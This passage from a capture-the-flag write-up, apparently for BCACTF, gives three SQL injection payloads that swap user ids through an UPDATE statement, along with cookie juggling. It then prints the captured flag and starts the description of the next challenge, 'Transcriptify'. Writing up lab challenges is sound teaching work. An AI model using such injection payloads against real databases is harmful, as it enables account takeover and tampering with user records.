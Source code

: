 Let's start exploiting:

1. `",id = 3 WHERE id = 0;--`

   Save the cookie somewhere.

2. `",id = 5 WHERE id = 1;--`

   Put back the old cookie.

3. `",id = 1 WHERE id = 3;--`

And we will get the flag in response.

![flag](./assets/images/web/user/flag.png)

**Flag**: `bcactf{g3t_BEtA_t3StERs_f6a71451d481a8}`

# Web/Transcriptify 

> **Description** : The secretaries at my school are tired of manually processing transcript requests, so they've built an app to the job for them. You would hope that anything handling private student info would be secure, right? I hope so too. \
> **Author** : `Thomas`
